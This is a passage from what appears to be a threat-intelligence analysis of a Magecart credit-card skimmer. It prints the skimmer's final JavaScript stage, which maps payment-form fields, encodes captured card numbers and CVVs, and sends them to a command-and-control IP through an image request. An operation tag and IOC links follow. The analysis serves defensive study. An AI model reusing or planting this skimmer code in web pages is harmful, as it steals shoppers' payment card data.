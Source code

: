 <h6>The last part of the code is to replace the value of before send to the C2 by URL requests, this time in using the creation of an img element, by the url of the img, send the data to theirs C2 domains. This time, this doesn't remove the cookie in the cache and keep it.</h6>

```js
Data= Push_Data("mage_stats");
Data= Data["replace"]("card[num]","cc_number");
Data= Data["replace"]("card[name]","cc_owner");
Data= Data["replace"]("card[exp]","authorizenet_expiration");
Data= Data["replace"]("payment[ccw_exp_year]","authorizenet_expiration_yr");
Data= Data["replace"]("card[cvv]","cc_cid");
Data= Data["replace"]("payment[ps_cc_number]","cc_number");
Data= Data["replace"]("payment[ps_cc_owner]","cc_owner");
Data= Data["replace"]("payment[ps_cc_exp_month]","authorizenet_expiration");
Data= Data["replace"]("payment[ps_cc_exp_year]","authorizenet_expiration_yr");
Data= Data["replace"]("payment[ps_cc_cid]","cc_cid");
if(Data["indexOf"]("cc_number")!==  -1|| Data["indexOf"]("cc_cid")!==  -1|| Data["indexOf"]("cvv")!==  -1|| Data["indexOf"]("cardno")!==  -1|| Data["indexOf"]("ccNo")!==  -1|| Data["indexOf"]("securityCode")!==  -1|| Data["indexOf"]("cardNumber")!==  -1|| Data["indexOf"]("numero_cartao")!==  -1)
{
    var result={referer:document["URL"],tag:"YTE4MWE2MDM3NjljMWY5OGFkOTI3ZTczNjdjN2FhNTE=",stats:btoa(Data["hexEncode"]())}; // YTE4MWE2MDM3NjljMWY5OGFkOTI3ZTczNjdjN2FhNTE= -> a181a603769c1f98ad927e7367c7aa51
    u= "http://45.197.141.250/analytics.php?statistics_hash="+ btoa(JSON["stringify"](result));
    var s=document["createElement"]("IMG");
    s["src"]= u;
    Push_Cookie("mage_stats");
}
      })}
}main()})
 ```

<h6>As said before, an operation tag can be found :</h6>

<table>
<tr>
<th>Base64 tag</th>
<th>Value tag</th>
</tr><tr>
<td>YTE4MWE2MDM3NjljMWY5OGFkOTI3ZTczNjdjN2FhNTE=</td>
<td>a181a603769c1f98ad927e7367c7aa51</td>
</tr>
</table>

<h6>As a conclusion, we can note the continuity of the operations as well as the opportunity to add to their business, a skimmer against the cybersource solution (acquired by VISA) as anti-fraud solutions. It is important to note that a supposed part of the group was stopped and that it took little time to restructure and migrate to this opportunity.</h6>

<h2> Indicators Of Compromise (IOC) <a name="IOC"></a></h2>
<h6> The IOC can be exported in <a href="https://github.com/StrangerealIntel/CyberThreatIntel/blob/master/Additional%20Analysis/Magecart/2020-06-02/JSON/IOC-Magecart-2020-06-02.json">JSON</a> and <a href="https://github.com/StrangerealIntel/CyberThreatIntel/blob/master/Additional%20Analysis/Magecart/2020-06-02/CSV/IOC-Magecart-2020-06-02.csv">CSV</a></h6>
